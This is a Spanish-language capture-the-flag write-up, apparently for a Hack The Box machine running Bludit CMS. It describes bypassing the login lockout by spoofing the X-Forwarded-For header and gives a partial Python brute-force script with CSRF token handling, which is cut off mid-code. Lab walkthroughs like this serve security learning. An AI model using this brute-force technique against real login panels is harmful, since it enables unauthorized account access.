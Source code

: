 ```bash

-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform "fergus" that the new blog needs images - PENDING					
-Encontramos un "User": "fergus"
``` 
Teniendo un Usuario valido, probamos a hacer fuerza bruta contra el panel login del CMS Bludit y nos salta un bloqueo a los 10 intentos.
Miramos en searchsploit Bludit CMS 
Vemos que hay varias reportes interesantes
Nos fijamos en el de Metasploit y lo inspeccionamos para ver que esta haciendo, y vemos que para hacer fuerza bruta cambia el valor de la cabecera  X-Forwarded-For

# Haciendo Bypass Brute Force al Panel Login de Bludit CMS
Nos montamos un script en python3 para conseguir hacer fuerza bruta contra el panel login y saltarnos el bloqueo atraves de la cabecera X-Forwarded-For
```python
#!/usr/bin/python3

import sys
import time  
import requests
import signal
import re 
import pdb

from pwn import *  

def def_handler(sig, frame):
        print("\n[*] Saliendo . . .\n")
        sys.exit(1)

#Ctrl + C
signal.signal(signal.SIGINT, def_handler)

#Variable Global
main_url = "http://10.10.10.191/admin/login.php"


def makeRequest():
# peticion s que almacena la session(Cookies, etc)
        s = requests.session()

# Creamos la variable f que nos abra el archivo diccionario en modo read
        f = open("diccionario.txt", "r")
# Barras de Progreso
        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando Ataque de Fuerza Bruta")
        time.sleep(2)

# Creando el bucle para realizar fuerza bruta  
        for password in f.readlines():

# Pillando el tokenCSRF con la libreria RE y usando expresiones regulares para filtrar por la data de "value=", a niver de la respuesta de la peticion response
                response = s.get(main_url)
                tokenCSRF = re.findall(r'name="tokenCSRF" value="(.*?)"', response.text)[0]

# Campo del login, Data que tramitamos
                data_post = {
                'tokenCSRF' : tokenCSRF,
```